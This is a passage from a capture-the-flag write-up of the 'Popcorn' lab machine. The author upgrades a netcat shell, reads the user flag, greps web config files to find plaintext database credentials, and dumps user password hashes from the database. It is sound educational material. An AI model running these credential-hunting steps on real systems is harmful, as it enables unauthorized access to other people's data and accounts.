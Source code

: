 After [upgrading my netcat shell to a pseudo pty with python](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2), I had a low-privileged shell and was able to capture the `user.txt` flag:

```none
www-data@popcorn:/var/www/torrent$ cat /home/george/user.txt
5e36a919398ecc5d5c110f2d865cf136
```

## Privilege Escalation (CVE-2010-0832)

After capturing the user flag, I like do some basic privilege escalation checks. Whenever there is a web application running on the host, I like to check for credential reuse since a username and password is generally required to connect to its database:

Below is how I found the database credentials:

```none
www-data@popcorn:/var/www/torrent$ grep --color -RiE 'pwd|passw' *
... CONTENT SNIPPED ...
config.php:  $CFG->dbPassword = "SuperSecret!!";        //db password
config.php:     $dbpass         = $CFG->dbPassword;
config.php:  //start session to hold username and password when linking from page to page
config.php:  db_connect($CFG->host, $CFG->dbName, $CFG->dbUserName, $CFG->dbPassword);
```

```none
www-data@popcorn:/var/www/torrent$ grep CFG config.php
  ... CONTENT SNIPPED ...
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
  ... CONTENT SNIPPED ...
```

The database credentials were located in `/var/www/torrent/config.php`. Do note that I was not able to reuse these credentials to login as the `root` or `george` user.
The next thing I like to do after compromising database credentials is to look for other application-based passwords that were set by administrators for credential reuse.
I connected to the Torrent Hoster application's database and extracted the Admin user's password hash, but was unable to crack it within a reasonable amount of time.

```none
mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 |
|  5 | r0kit    | 5f4dcc3b5aa765d61d8327deb882cf99 | user      | r0kit@example.com    | 2020-09-06 19:47:52 | 2020-09-06 19:47:52 |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
```

